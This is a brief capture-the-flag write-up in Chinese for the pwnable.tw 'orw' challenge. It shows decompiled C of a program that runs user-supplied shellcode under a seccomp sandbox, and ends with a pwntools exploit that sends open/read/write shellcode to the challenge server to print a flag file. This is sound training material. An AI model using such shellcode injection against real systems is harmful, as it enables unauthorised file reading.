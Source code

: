 ```yaml
---
title: pwnable.tw::orw
date: 2023-10-17 21:29:57
tags: pwn
---
```


## 保護機制
Canary, Partial RELRO

## 分析
### main
<!-- more -->
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```
### orw_seccomp
```c
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h]
  char *v2; // [esp+8h] [ebp-80h]
  char v3; // [esp+Ch] [ebp-7Ch]
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(&v3, &unk_8048640, 0x60u);
  v1 = 12;
  v2 = &v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```
在C語言有一種”SandBox模式”, 限制程式只能使用 `open()`, `read()`, `write()`

可以通過`seccomp()` 或是`prctl()`開啟

所以這裡的邏輯不重要, 只要知道只能 open, read, write就好

也不用繞canary, 因為沒有Control PC

## exploit
```python
#!/usr/bin/env python2 

from pwn import *
import pwnlib.shellcraft

p = remote('chall.pwnable.tw', 10001)

context.log_level = 'debug'

shellcode = shellcraft.i386.pushstr('/home/orw/flag')
shellcode += shellcraft.i386.linux.syscall('SYS_open', 'esp')
shellcode += shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
shellcode += shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)

p.sendlineafter('Give my your shellcode:', asm(shellcode))

print p.recv()

p.close()
```

